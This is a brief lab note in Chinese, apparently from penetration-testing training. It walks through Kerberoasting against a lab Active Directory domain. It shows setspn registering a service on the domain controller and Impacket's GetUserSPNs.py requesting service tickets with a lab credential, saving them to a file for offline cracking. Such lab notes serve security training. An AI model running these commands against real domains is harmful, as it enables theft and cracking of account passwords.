 
### Kerberoasting
1. 驗證(SPN Scan)
2. 取得TGST
3. 破解

先幫2019DC註冊服務
setspn -s http/lpt.com user-one
![image](images/BkxRJhfv6.png)


到parrot

前提條件是你要拿到1組AD合法的帳號密碼身份
GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
取得TGST
![image](images/Hk1gyhMPa.png)
